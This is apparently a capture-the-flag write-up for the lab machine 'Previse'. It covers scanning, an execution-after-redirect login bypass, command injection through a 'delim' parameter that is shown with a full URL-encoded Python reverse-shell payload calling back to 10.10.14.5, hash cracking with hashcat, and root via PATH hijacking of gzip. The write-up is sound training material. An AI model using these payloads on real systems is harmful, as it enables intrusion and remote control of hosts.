 ## Previse

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.11.104 --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/226720951-de8633a0-2aa7-48e4-bca1-8e1e27494b7e.png)

<br>

In port 80 there is just a login panel, so we enumerate with .php extension.

```
gobuster dir -u http://10.10.11.104 -w /usr/share/wordlists/dirb/big.txt -t 40 -x php
```

GoBuster return us some pages but all redirect us to the login.

![gobuster](https://user-images.githubusercontent.com/58514930/226722831-58cdf513-ec5f-485f-89a9-dcafdbf33b2c.png)

<br>

We can bypass this by changing the response 302 of redirection to 200 OK. This is called Execution After Redirect (EAR).

So we do this to the accounts.php to create an admin account for us.

![createAccount](https://user-images.githubusercontent.com/58514930/226722168-a85638ad-b508-44bb-b1f6-0f88d99e5a1a.png)

<br>

Now logged in, you can download sitebackup.zip inside files.php.

![sitebackup](https://user-images.githubusercontent.com/58514930/226722324-72ba8857-02a7-4467-bb87-1c5bbcf734a6.png)

<br>

This zip contains the php files of the website.

One is config.php that has the database credentials.

![configPHP](https://user-images.githubusercontent.com/58514930/226722390-bd12e8fc-3f23-45cf-a18d-0747630d46cc.png)

<br>

Looking through the source code, something calls our attention.

Logs.php contain a command execution and we can control the "delim" parameter.

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

![logsPHP](https://user-images.githubusercontent.com/58514930/226723338-6bac1aa9-8bbf-4e75-a784-7635916f9594.png)

<br>

We can obtain a reverse shell putting this payload in delim parameter:

```
;+/usr/bin/python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.5",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'
```

![commandInjection](https://user-images.githubusercontent.com/58514930/226724364-ebcd130d-c437-4edf-91eb-592eaa276427.png)

<br>

With a shell, we can take a look at the database.

![database](https://user-images.githubusercontent.com/58514930/226724413-1862224e-d02d-410c-8920-7b5c25220ed3.png)

<br>

Inside previse database we found m4lwhere hash.

Let's break it with hashcat.

```
hashcat -a 0 -m 500 hash /usr/share/wordlists/rockyou.txt
```

![hashcat](https://user-images.githubusercontent.com/58514930/226725091-d6a1270a-1e4c-4328-aeda-12e003ce09e4.png)

<br>

Log into SSH with this credentials and get user flag.

### Root Flag

Enumerating with sudo -l, we can execute a script with root permissions.

![privEnumeration](https://user-images.githubusercontent.com/58514930/226725355-6d465742-0fe8-4db0-8b73-bb2979cb3147.png)

<br>

This script calls relative path of gzip, so, classical path hijacking here it is.

Just create a gzip file with a reverse shell and add the directory to the variable $PATH.

![privEsc](https://user-images.githubusercontent.com/58514930/226725647-7ae84da8-18ef-483f-9053-786d55b86386.png)
